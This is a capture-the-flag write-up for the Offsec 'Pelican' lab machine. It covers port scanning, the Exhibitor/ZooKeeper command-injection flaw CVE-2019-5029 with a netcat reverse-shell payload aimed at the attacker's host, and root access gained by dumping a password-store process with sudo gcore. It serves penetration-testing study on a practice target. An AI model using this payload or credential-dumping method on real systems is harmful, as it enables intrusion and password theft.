 ```yaml
---
title: Pelican
date: 2024-01-19 09:45:47 +07:00
modified: 2024-01-19 09:45:47 +07:00
tags: [ Pelican, Gcore, Exhibitor, Zookeeper, CVE-2019-5029, Linux, OSCP, Writeup]
description: Let's hope to see one at the zoo.
image: https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/offsecbanner.jpeg)



<img src="https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Pelican</font>

​		11<sup>th</sup> October 2020

​		Machine Author(s): [Offsec]

​		

### Description:

Let's hope to see one at the zoo.

### Difficulty:

`Intermediate`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 192.168.196.98`

`nmap -sC -sV -p21,23,80 192.168.196.98 -oA ./nmap/pelican`

|Ports|Service
|22| ssh OpenSSH 7.9p1 Debian
|139| netbios-ssn Samba smbd 3.X - 4.X
|445| 563cafdc3028 Samba smbd 4.9.5-Debian
|631| ipp CUPS 2.2
|2181| zookeeper Zookeeper 3.4.6-1569965
|2222| ssh OpenSSH 7.9p1 Debian
|8080| HTTP Jetty 1.0
|8081| HTTP nginx 1.14.2

![](https://photos.squarezero.dev/file/abir-images/Pelican/1.png)

I have checked SMB share where 2 shares are listed but no access to them.

`smbmap -H 192.168.196.98`

![](https://photos.squarezero.dev/file/abir-images/Pelican/2.png)

# Foothold

I checked checked port 8081 which redirected me to port 8080.
Here I found Exhibitor for ZooKeeper.

![](https://photos.squarezero.dev/file/abir-images/Pelican/3.png)

I looked for known exploits and found [CVE-2019-5029](https://www.exploit-db.com/exploits/48654)

![](https://photos.squarezero.dev/file/abir-images/Pelican/4.png)

It's explained that as Exhibitor have any kind of authenticator we can execute Code via java.env.

First, we have to turn on Editing next we can execute commands using `$()`.

After that we Click Commit > All At Once > OK.

`$(/bin/nc -e /bin/sh 192.168.45.177 4444 &)`

![](https://photos.squarezero.dev/file/abir-images/Pelican/5.png)

It takes 30 sec for it to execute and we get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Pelican/6.png)

# Privilege Escalation

Let's get a proper shell. We can run the commands in the following order.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + z
reset
stty raw -echo; fg
stty rows 54
stty columns 141
export TERM=screen
```
We check what can Charles run as sudo and we find its [gcore]().

`sudo -l`

![](https://photos.squarezero.dev/file/abir-images/Pelican/7.png)

According to [GTFObin](https://gtfobins.github.io/gtfobins/gcore/) using gcore we can dump process and read information.

I also looked for SUID binaries and found [password-store]().

`find / -perm -u=s -type f 2>/dev/null`

![](https://photos.squarezero.dev/file/abir-images/Pelican/8.png)

Let's look for PID for password-store

`ps -aux | grep password-store`

![](https://photos.squarezero.dev/file/abir-images/Pelican/9.png)

We can now drop the process using gcore.

`sudo /usr/bin/gcore 493`

![](https://photos.squarezero.dev/file/abir-images/Pelican/10.png)

Inside the file, we can find the password of root.

![](https://photos.squarezero.dev/file/abir-images/Pelican/11.png)

Now we can login with the password and get the proof.txt.

![](https://photos.squarezero.dev/file/abir-images/Pelican/12.png)